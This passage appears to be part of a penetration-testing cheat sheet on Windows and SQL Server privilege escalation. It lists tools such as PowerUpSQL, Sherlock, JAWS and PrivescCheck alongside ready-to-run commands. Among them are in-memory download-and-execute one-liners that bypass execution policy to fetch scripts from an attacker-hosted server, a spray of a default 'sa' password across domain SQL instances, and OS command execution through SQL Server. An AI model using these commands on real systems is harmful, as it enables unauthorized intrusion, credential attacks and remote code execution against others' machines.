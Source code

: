 PowerUpSQL.ps1:

* [github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
$ curl -L https://github.com/NetSPI/PowerUpSQL/raw/master/PowerUpSQL.ps1 > powerupsql.ps1
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -UserName sa -Password 'Passw0rd!' -Verbose
PS > Invoke-SQLOSCmd -UserName sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command whoami
```

Sherlock.ps1:

```
root@kali:$ wget https://github.com/rasta-mouse/Sherlock/raw/master/Sherlock.ps1 && python3 -m http.server 80
powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/PowerUp.ps1')"
PS > powershell.exe -exec bypass -c "& {Import-Module .\Sherlock.ps1; Find-AllVulns |Out-File sherlock.txt}"
```

Watson:

* [github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

JAWS:

```
root@kali:$ wget https://github.com/411Hall/JAWS/raw/master/jaws-enum.ps1 && python3 -m http.server 80
PS > powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/jaws-enum.ps1')"
PS > .\jaws-enum.ps1 -OutputFileName jaws-enum.txt
```

PrivescCheck:

* [github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

```
PS > powershell.exe -exec bypass -c ". .\privesccheck.ps1; Invoke-PrivescCheck -Extended | Tee-Object privesccheck-out.txt"
```

Windows-Exploit-Suggester:

* [github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
$ python -u windows-exploit-suggester.py -d 2020-09-02-mssb.xls -i systeminfo.txt --ostext 'windows 10 64-bit' --hotfixes hotfixes.txt | tee wes.log
```



### Registry & Filesystem
